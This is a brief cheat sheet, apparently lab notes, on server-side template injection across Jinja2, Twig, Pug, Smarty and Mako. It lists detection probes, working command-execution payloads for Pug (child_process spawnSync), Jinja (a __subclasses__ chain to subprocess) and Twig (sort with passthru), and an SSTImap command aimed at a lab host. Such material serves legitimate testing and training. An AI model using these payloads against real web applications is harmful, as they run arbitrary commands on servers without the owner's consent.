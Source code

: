 
1. **Jinja2 (python)/Twig (PHP)** - `{{7*'7'}}`
2. **Jade/Pug** (Node)
	* `#{7 * 7}`
3. Smarty (PHP) - `{'Hello'|upper}`
4. Pug (node)
	* `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`
5. Jinja (python)
	* `{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}`
6. Make (python)
	* ${7 * 7}

##### Automation
```bash
git clone https://github.com/vladko312/SSTImap.git
```
```bash
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

#### Twig
`{{['id',""]|sort('passthru')}}`